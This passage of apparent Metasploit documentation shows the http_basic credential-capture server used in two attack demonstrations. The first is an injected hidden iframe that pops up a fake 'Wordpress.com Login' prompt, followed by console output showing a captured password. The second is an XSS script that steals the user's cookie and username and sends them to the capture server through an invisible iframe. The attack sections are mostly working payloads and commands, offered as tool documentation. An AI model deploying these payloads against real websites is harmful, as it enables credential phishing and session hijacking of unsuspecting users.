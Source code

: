 ### HTML Injection Social Engineering

In this scenario, we're able to inject HTML (but not script) into a website.  We'll inject an `iframe`
that will load our basic authentication website.  This payload will pop-up a login box, with the REALM (title)
set to the website, which will hopefully trick a user into entering their credentials.
**The following scenario is a demonstration, no actual vulnerability was identified, or tested.
The HTML was simply edited in the local browser.**

HTML Payload Injected:

```html
&lt;iframe width="0" height="0" src="http://127.0.0.1/">&lt;/iframe>
```

Server:

```
msf5 > use auxiliary/server/capture/http_basic 
msf5 auxiliary(server/capture/http_basic) > set uripath '/'
uripath => /
msf5 auxiliary(server/capture/http_basic) > set REALM "Wordpress.com Login"
REALM => Wordpress.com Login
msf5 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.2.117:80/
[*] Server started.
[*] Sending 401 to client 127.0.0.1
[+] 127.0.0.1 - Credential collected: "metasploit_blog:ms08-0sK1NG!" => /
```

Client:

![Injected Payload](https://user-images.githubusercontent.com/752491/48039039-326e1880-e141-11e8-9971-d9c88081d0df.png)

### XSS Cookie Theft

In this scenario, we're able to inject JavaScript into a website.  We'll first get the user's cookie, then with jQuery
pull the username from the `username` field.  Because the cookie may contain fields break URI parsing (like `@`)
we use `btoa` to base64 encode the cookie.  Next we'll write an `iframe`
that will silently attempt a login to our basic authentication website.
**The following scenario is a demonstration, no actual vulnerability was identified, or tested.
The HTML was simply edited in the local browser.**

Payload:

```html
&lt;script>
var cookie = document.cookie;
var username = $('#username').text();
document.write('&lt;iframe width="0" height="0" src="http://' + username + ':' + btoa(cookie) + '@127.0.0.1/">&lt;/iframe>');
&lt;/script>
```
